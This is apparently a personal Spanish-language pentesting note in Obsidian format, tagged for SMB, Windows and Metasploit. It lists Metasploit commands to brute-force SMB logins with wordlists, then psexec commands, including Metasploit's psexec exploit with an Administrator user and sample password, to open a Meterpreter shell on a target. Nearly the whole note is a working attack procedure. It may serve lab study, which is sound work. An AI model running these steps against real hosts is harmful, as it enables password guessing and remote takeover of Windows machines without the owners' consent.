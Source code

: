 ```yaml
---
created: 2024-12-21

---
```

--------
- tags: #smb #windows #bruteforce #psexec #metasploit #meterpreter 
---------

### Ataque de fuerza bruta con Metasploit

	msfdb run
	use auxiliary/scanner/smb/smb_login
	set RHOSTS x.x.x.x
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	set VERBOSE false
	run

### Autenticarse con psexec

	psexec Administrator@x.x.x.x cmd.exe
(pedirá la contraseña al ejecutarlo)

### Autenticarse con el psexec de Metasploit (meterpreter session)

	seach psexec 
	use exploit/windows/smb/psexec
	set RHOSTS x.x.x.x
	set SMBUser Administrator
	set SMBPass 123456789
	exploit


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

